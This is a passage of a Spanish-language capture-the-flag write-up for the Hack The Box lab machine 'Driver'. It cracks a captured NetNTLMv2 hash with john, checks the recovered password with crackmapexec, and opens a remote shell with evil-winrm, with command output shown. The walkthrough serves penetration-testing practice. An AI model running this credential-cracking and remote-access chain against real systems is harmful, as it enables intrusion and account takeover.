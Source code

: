 ```
[-] SMB2_TREE_CONNECT not found share
[-] SMB2_TREE_CONNECT not found share
[*] Disconnecting Share(1:IPC$)
[*] Closing down connection (10.10.11.106,49414)
[*] Remaining connections []
```

Tenemos nuestro hash, vamos a intentar crackearlo:
```
john --wordlist=/usr/share/wordlists/rockyou.txt hash
Using default input encoding: UTF-8
Loaded 1 password hash (netntlmv2, NTLMv2 C/R [MD4 HMAC-MD5 32/64])
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
liltony          (tony)     
1g 0:00:00:00 DONE (2023-02-16 15:15) 50.00g/s 1638Kp/s 1638Kc/s 1638KC/s !!!!!!..eatme1
Use the "--show --format=netntlmv2" options to display all of the cracked passwords reliably
Session completed. 
```

Obtuvimos la contraseña, vamos a validarlas con `crackmapexec`:

```
crackmapexec smb 10.10.11.106 -u 'tony' -p 'liltony'
SMB         10.10.11.106    445    DRIVER           [*] Windows 10 Enterprise 10240 x64 (name:DRIVER) (domain:DRIVER) (signing:False) (SMBv1:True)
SMB         10.10.11.106    445    DRIVER           [+] DRIVER\tony:liltony
```

Observamos que las credenciales son correctas, vamos a enumerar ahora la información del winrm:
```
crackmapexec winrm 10.10.11.106 -u 'tony' -p 'liltony'
SMB         10.10.11.106    5985   NONE             [*] None (name:10.10.11.106) (domain:None)
HTTP        10.10.11.106    5985   NONE             [*] http://10.10.11.106:5985/wsman
WINRM       10.10.11.106    5985   NONE             [+] None\tony:liltony (Pwn3d!)
```

Vemos que corresponde al grupo **remote management use**, asi que vamos a ganar acceso por `evil-winrm`:

```
 evil-winrm -i 10.10.11.106 -u 'tony' -p 'liltony'

Evil-WinRM shell v3.4

Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine

Data: For more information, check Evil-WinRM Github: https://github.com/Hackplayers/evil-winrm#Remote-path-completion

Info: Establishing connection to remote endpoint

*Evil-WinRM* PS C:\Users\tony\Documents> ipconfig

Windows IP Configuration


Ethernet adapter Ethernet0:

   Connection-specific DNS Suffix  . : htb
   IPv6 Address. . . . . . . . . . . : dead:beef::176
   IPv6 Address. . . . . . . . . . . : dead:beef::f80b:afef:a6e1:f1e7
   Temporary IPv6 Address. . . . . . : dead:beef::a1aa:542b:b5e:3e
   Link-local IPv6 Address . . . . . : fe80::f80b:afef:a6e1:f1e7%5
   IPv4 Address. . . . . . . . . . . : 10.10.11.106
   Subnet Mask . . . . . . . . . . . : 255.255.254.0
```